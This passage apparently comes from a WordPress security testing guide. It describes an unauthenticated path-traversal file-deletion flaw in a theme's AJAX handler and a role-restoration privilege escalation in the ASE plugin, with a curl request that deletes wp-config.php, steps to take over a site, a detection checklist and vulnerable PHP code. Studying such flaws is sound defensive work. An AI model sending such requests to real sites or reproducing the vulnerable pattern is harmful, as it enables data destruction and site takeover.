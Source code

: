 * **Unauthenticated access** – the `wp_ajax_nopriv_` hook is registered.
* **No nonce / capability check** – any visitor can hit the endpoint.
* **No path sanitisation** – the user–controlled `fontfamily` string is concatenated to a filesystem path without filtering, allowing classic `../../` traversal.

#### Exploitation

An attacker can delete any file or directory **below the uploads base directory** (normally `<wp-root>/wp-content/uploads/`) by sending a single HTTP POST request:

```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
     -d 'action=litho_remove_font_family_action_data' \
     -d 'fontfamily=../../../../wp-config.php'
```

Because `wp-config.php` lives outside *uploads*, four `../` sequences are enough on a default installation.  Deleting `wp-config.php` forces WordPress into the *installation wizard* on the next visit, enabling a full site take-over (the attacker merely supplies a new DB configuration and creates an admin user).

Other impactful targets include plugin/theme `.php` files (to break security plugins) or `.htaccess` rules.

#### Detection checklist

* Any `add_action( 'wp_ajax_nopriv_...')` callback that calls filesystem helpers (`copy()`, `unlink()`, `$wp_filesystem->delete()`, etc.).
* Concatenation of unsanitised user input into paths (look for `$_POST`, `$_GET`, `$_REQUEST`).
* Absence of `check_ajax_referer()` and `current_user_can()`/`is_user_logged_in()`.

---

### Privilege escalation via stale role restoration and missing authorization (ASE "View Admin as Role")

Many plugins implement a "view as role" or temporary role-switching feature by saving the original role(s) in user meta so they can be restored later. If the restoration path relies only on request parameters (e.g., `$_REQUEST['reset-for']`) and a plugin-maintained list without checking capabilities and a valid nonce, this becomes a vertical privilege escalation.

A real-world example was found in the Admin and Site Enhancements (ASE) plugin (≤ 7.6.2.1). The reset branch restored roles based on `reset-for=<username>` if the username appeared in an internal array `$options['viewing_admin_as_role_are']`, but performed neither a `current_user_can()` check nor a nonce verification before removing current roles and re-adding the saved roles from user meta `_asenha_view_admin_as_original_roles`:

```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
    $reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
    $usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

    if ( in_array( $reset_for_username, $usernames, true ) ) {
        $u = get_user_by( 'login', $reset_for_username );
        foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
        $orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
        foreach ( $orig as $r ) { $u->add_role( $r ); }
    }
}
```
